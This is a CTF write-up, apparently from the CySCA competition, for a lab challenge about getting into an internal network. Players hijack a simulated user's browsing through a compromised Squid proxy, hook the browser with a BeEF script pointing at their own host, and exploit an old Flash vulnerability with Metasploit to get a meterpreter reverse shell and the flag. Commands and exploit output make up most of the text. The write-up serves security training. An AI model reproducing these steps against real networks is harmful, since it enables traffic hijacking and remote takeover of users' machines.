 Flash Flood Writeup
===================
## Category
Corporate Penetration Testing

## Question
Try to gain initial access into the initiative's internal network.

## Designed Solution
Players have already identified that Squid is running on the proxy server. Players need to inspect the squid logs to realise that there are simulated users also using the proxy. They need to redirect this Internet traffic to their Kali systems. Players need to profile the browser's plugin versions and then exploit a vulnerability to gain user access into the internal network.

## Hints Given
* Consider that the ECWI system is secure and doesn't allow direct traffic from the DMZ to the internal network. Additionally, it does not allow direct connections on arbitary ports from the internal network to the DMZ.
* Consider the services that you have used to get here, maybe others are using them as well... how would you find out? And keep up your resolv.conf.
* Look in the log file folder that has the same name as a sea creature. When you find the target, find their versions, then find the exploit.
* 11.7.700.202 might be relevant. Remember proxies are generally used for internal users to browse the Internet.

## Player Solution Comments
Six teams solved this challenge. All solutions used the proxy system to redirect traffic. Methods to do this differed, some redirected the proxies /etc/resolv.conf and some added entries to the proxy's /etc/hosts file. The Metasploit exploit modules that were successfully used were adobe_flash_hacking_team_uaf, adobe_flash_pixel_bender_bof, adobe_flash_avm2. All teams used a variant of meterpreter/reverse_http as the payload.

## Writeup
We start with the root shell gained from the previous challenge. Considering the name of the system (`proxy`) and that squid was running, we take a look at the squid server access logs to see if anyone else is using the proxy.

```shell
root@proxy:/# tailf /var/log/squid3/access.log
1446377315.128  30005 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://onlineshopping.cysca/ - HIER_NONE/- text/html
1446377325.142  30003 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://talktofriends.cysca/ - HIER_NONE/- text/html
1446377335.144  30002 fd00:dead:beef::103 TCP_MISS/503 3908 GET http://hipsterpics.cysca/ - HIER_NONE/- text/html
1446377345.170  30003 fd00:dead:beef::103 TCP_MISS/503 4161 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.170  10004 fd00:dead:beef::103 TCP_MISS/503 4158 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.170  19976 fd00:dead:beef::103 TCP_MISS/503 4160 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.173  30003 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://newsaggegator.cysca/ - HIER_NONE/- text/html
1446377345.206      0 fd00:dead:beef::103 TCP_MISS/503 4160 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377355.156  30006 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://legitimatesite.cysca/ - HIER_NONE/- text/html
1446377355.170      0 fd00:dead:beef::103 TCP_MISS/503 4161 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377421.690  30007 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://onlineshopping.cysca/ - HIER_NONE/- text/html
1446377430.392  30004 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://talktofriends.cysca/ - HIER_NONE/- text/html
```

We see a number of requests for websites including `http://legitimatesite.cysca` and `http://hipsterpics.cysca` from the system at `fd00:dead:beef::103`. We have a look at the proxy systems network adapters with `ifconfig` and see that it does not have an address in the `fd00:dead:beef` network. Based on the question text we surmise that this may be the internal network it is referring to.

We are curious about this IPv6 host and in order to get more information about the browser we will route the proxy requests to a BeEF server that we control.
We will target the `http://legitimatesite.cysca` request.

We first start the BeEF server in Kali. We then create a file `index.html` with the following content.

```html
<html>
<body>
<script src="http://192.168.5.100:3000/hook.js"></script>
</body>
</html>
```

We then use python to serve the page with the command `python -m SimpleHTTPServer 80`

Once we have the HTTP server running on our Kali system we jump onto the proxy server as root and update the `/etc/hosts` file to point `legitimatesite.cysca` to `192.168.5.100`. We then waited for the client to make another request for `legitimatesite.cysca`. *Note: We had to restart the squid proxy for the host files based redirection to take effect, which meant we temporarily lost access to our root shell.*

After waiting a couple of minutes the target browser showed up in BeEF. From the user agent it looks as if the browser is IE 10 on Windows 7.
We also note that the browser has flash installed. And this is probably relevant due to the name of the question.

![BeEF Interface](screenshots/beef_hooked.png)

We decide to try exploit the Flash plugin. We open Metasploit and use the most recent Flash vulnerability `exploit/multi/browser/adobe_flash_opaque_backgroud_uaf`. We use the `meterpreter_reverse_https` payload, this will give us the best chance of success as it will use any proxies currently configured in the target user browser. We use `LPORT=443` to give us the best chance of success against egress port filtering. We set `VERBOSE=True` to gain as much information as we can for later attempts.

We eventually get a connection from the target client. Unfortunately the exploit requirements aren't met. Because we had VERBOSE mode on we can see that the browser is running Flash version `11.7.700.202`. Now we can select an exploit that works against that version.

```
msf exploit(adobe_flash_opaque_background_uaf) > set LPORT 443
LPORT => 443
msf exploit(adobe_flash_opaque_background_uaf) > set LHOST 192.168.5.100
LHOST => 192.168.5.100
msf exploit(adobe_flash_opaque_background_uaf) > exploit
[*] Exploit running as background job.

[*] Started HTTP reverse handler on http://0.0.0.0:443/
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.5.100:80/
[*] Server started.

[*] 172.16.5.30      adobe_flash_opaque_background_uaf - Gathering target information.
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30      adobe_flash_opaque_background_uaf - 172.16.5.30      adobe_flash_opaque_background_uaf - Received sniffed browser data over POST:
{"os_name"=>["Windows 7"], "os_vendor"=>["undefined"], "os_device"=>["undefined"], "ua_name"=>["MSIE"], "ua_ver"=>["10.0"], "arch"=>["x86"], "java"=>["null"], "silverlight"=>["false"], "flash"=>["11.7.700.202"], "vuln_test"=>["true"], "office"=>["null"], "mshtml_build"=>["17489"]}.
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30      adobe_flash_opaque_background_uaf - 172.16.5.30      adobe_flash_opaque_background_uaf - Comparing requirement: flash=#<Proc:0x11080d0c@/usr/share/metasploit-framework/modules/exploits/multi/browser/adobe_flash_opaque_background_uaf.rb:65 (lambda)> vs flash=11.7.700.202
[!] 172.16.5.30      adobe_flash_opaque_background_uaf - Exploit requirement(s) not met: flash. For more info: http://r-7.co/PVbcgx

msf exploit(adobe_flash_opaque_background_uaf) > jobs -k 0
```

We perform a search in Metasploit for that flash version `search 11.7.700.202` and one exploit `exploit/windows/browser/adobe_flash_avm2` is  listed. *Google would also have found this module*.

```
msf exploit(adobe_flash_opaque_background_uaf) > search 11.7.700.202
[!] Database not connected or cache not built, using slow search
Matching Modules
================
   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   exploit/windows/browser/adobe_flash_avm2  2014-02-05       normal  Adobe Flash Player Integer Underflow Remote Code Execution
```

We use this exploit module. Again,  we use `meterpreter_reverse_https` payload and set `LPORT=443` and `VERBOSE=True`. We then wait for the client to request `legitimatesite.cysca` and be redirected to our exploit page. When the client requests the page, the exploit is successful and we get a Meterpreter shell.



```
msf exploit(adobe_flash_avm2) > exploit
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30:50552 (UUID: 8af1c94a56391b72/x86=1/windows=1/2015-11-01T12:40:37Z) Staging Native payload ...
[*] Meterpreter session 1 opened (192.168.5.100:443 -> 172.16.5.30:50552) at 2015-11-01 23:40:40 +1100
[*] Session ID 1 (192.168.5.100:443 -> 172.16.5.30:50552) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (1936)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 548
[*] 172.16.5.30      adobe_flash_avm2 - 172.16.5.30      adobe_flash_avm2 - Received cookie 'RLOHpW'.
[*] 172.16.5.30      adobe_flash_avm2 - 172.16.5.30      adobe_flash_avm2 - Serving exploit to user with tag RLOHpW
[*] 172.16.5.30      adobe_flash_avm2 - Target with tag "RLOHpW" wants to retry the module, not allowed.
[+] Successfully migrated to process

```

We then kill the exploit server with `jobs -k 2`. We then list the sessions with `sessions` and attach to the new session which is running as `jasper.west`.

```
msf exploit(adobe_flash_avm2) > jobs -k 2
[*] Stopping the following job(s): 2
[*] Stopping job 2
[*] Server stopped.
[*] Server stopped.
msf exploit(adobe_flash_avm2) > sessions

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  ECWI\jasper.west @ HOTDESK  192.168.5.100:443 -> 172.16.5.30:50552 (fd00:dead:beef::103)

msf exploit(adobe_flash_avm2) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: ECWI\jasper.west
```

In the meterpreter session we perform a `ls` and `cat flag.txt` to get the flag for this challenge.

```
meterpreter > ls
Listing: C:\Users\jasper.west\Desktop
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2015-09-15 11:12:49 +1000  desktop.ini
100666/rw-rw-rw-  39    fil   2015-08-11 10:19:59 +1000  flag.txt

meterpreter > cat flag.txt
FLAG{8EC9D138DB3D164D3704C92FB7C81643}

```
